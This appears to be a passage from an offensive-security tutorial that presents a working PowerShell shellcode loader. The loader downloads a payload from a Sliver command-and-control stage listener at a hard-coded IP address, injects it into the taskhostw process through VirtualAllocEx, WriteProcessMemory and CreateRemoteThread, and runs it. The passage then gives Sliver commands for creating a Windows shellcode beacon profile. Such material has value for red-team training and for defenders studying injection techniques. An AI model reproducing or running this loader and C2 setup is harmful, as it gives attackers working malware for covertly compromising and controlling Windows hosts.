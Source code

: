 ```

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr Process, IntPtr threadAttrib, uint stackSize, IntPtr shellcodeAddr, IntPtr additonalParams, uint creationFlags, out IntPtr lpThreadId);

}
"@
Add-Type $Win32

# Downlad shellcode from sliver C2 stage listener
$shellcode = (New-Object System.Net.WebClient).DownloadData("http://104.38.66.28:80/balls.woff")
if ($shellcode -eq $null) {Exit};
$size = New-Object System.UIntPtr($shellcode.length)

#retreive process id
$svchostProcess = Get-Process -Name taskhostw | Select-Object -First 1
$IdProcess = $svchostProcess.Id
Write-Output "Injected into process ID: $IdProcess"

#store process using openprocess and processid with full rights
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $IdProcess)	

#Allocate size of shellcode to stored process memory
$memAddr = [Win32]::VirtualAllocEx($process,[System.IntPtr]::Zero, $size, 0x00003000, 0x40)

#Write shellcode to process memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, $size.ToUInt32(), [ref]$writtenBytes)

#runs the shellcode alongside process
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)
```

### C2 Provisioning 

Now that we have a piece of code which injects shellcode into a running process, we need to set up the stage-listener the loader retrieves its shellcode from.

Begin by starting your Sliver server, `sudo systemctl start sliver`, and entering your Sliver client via `sliver`.

Now we create a sliver "profile" which is essentially the configuration for the implant we'll serve through the stage-listener. Here, we'll create our profile to point back to our Kali VM as the C2 server, specify Windows as the operating system, and serve the implant as shellcode.

```
All hackers gain indestructible
[*] Server v1.5.39 - 31265c626b84cf70fd0832d653dc94efc6f40eb9 - Dirty
[*] Welcome to the sliver shell, please type 'help' for options

sliver > profiles new beacon -b 192.168.7.130 --os win -f shellcode meow
```

